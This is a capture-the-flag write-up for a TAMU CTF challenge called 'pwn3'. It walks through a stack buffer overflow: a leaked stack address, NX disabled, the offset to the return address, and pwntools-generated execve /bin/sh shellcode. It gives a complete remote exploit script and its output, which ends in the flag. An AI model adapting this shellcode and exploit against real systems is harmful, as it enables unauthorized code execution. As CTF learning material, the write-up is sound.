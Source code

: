 # pwn3 #

![description](./imgs/description.png)

We downloaded the binary pwn3 ...

```
sha256sum pwn3
06be9c3f0e0dc60029ba2b9201844e6d2350053b1a2063f0dd29d95cff9f5533  pwn3
```

## Running the binary ##

```
./pwn3
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffe8552a!
Now what should I echo? foo
foo
```
That random number seems like a memory address leak of some sort ...

## Binary analysis ##
Reviewing the available functions in radare2 did not reveal any function related to print_flag
like the previous challenge (that is why is the "new Echo application 2.0" duh) ... One thing to
notice is that the value printed as a **random** number was the value of EBP-0xEE as highlighted
in the image below.

![print](./imgs/print.png)

We fired gdb and set a breakpoint at address 0x0804850a (after the call to gets) to check were
is this address pointing to after our input, if we dump the address 0xffffd33a (address printed
during debugging) we can see that it points directly to our input buffer ...

![add](./imgs/add.png)

Since this binary does not have the NX feature enabled, we can attempt to overwrite a ret address
in the stack and jump back to our buffer to gain control of the execution flow ...

![nx](./imgs/nx.png)

To find the offset to the ret address we sent a buffer of 256 bytes and found that our ret address
had an offset of 244 bytes ...

![ret](./imgs/ret.png)

```
>>> cyclic_find(0x616c6361)
242
```

We generated a shellcode to spawn a shell with pwntools ...
```
>>> with context.local():
...   context.arch = 'i386'
...   print enhex(asm(shellcraft.i386.linux.sh()))
...
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
```
We will inject our shellcode at the start to our buffer, add a few nops and at the end write our
return address captured during the print of the random number, our payload will look like this:

\[shellcode\]\[NOPS\]\[RET\]

## Getting the flag ##
We created a script to get our flag, after spawning a shell in the remote server we sent the
argument cat flag.txt to get the flag on the server.

```python
from pwn import *

p = remote ('pwn.ctf.tamu.edu', 4323)

print p.recvline()
print p.recvline()
print p.recvline()
print p.recvline()
print p.recvline()
mem_leak = p.recvline()
print mem_leak
add = int(mem_leak[19:29],16)
print p.recv()

shellcode = ''
shellcode += '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01'
shellcode += '\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1'
shellcode += '\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80' + '\x90' * 194
shellcode += p32(add) + p32(add)

p.sendline(shellcode)
print p.recvline()
p.sendline('cat flag.txt')
print p.recvline()
p.close()
```
Running our script against the CTF server ...
```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4323: Done
Welcome to the New Echo application 2.0!

Changelog:

- Less deprecated flag printing functions!

- New Random Number Generator!



Your random number 0xff88802a!

Now what should I echo?
jhh///sh/bin\x89ãh\x814$ri1ÉQj\x04YáQá1Òj\x0bX̀\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90*\x80\x88\xff*\x80\x88\xff

gigem{n0w_w3_4r3_g377in6_s74r73d}

[*] Closed connection to pwn.ctf.tamu.edu port 4323
```

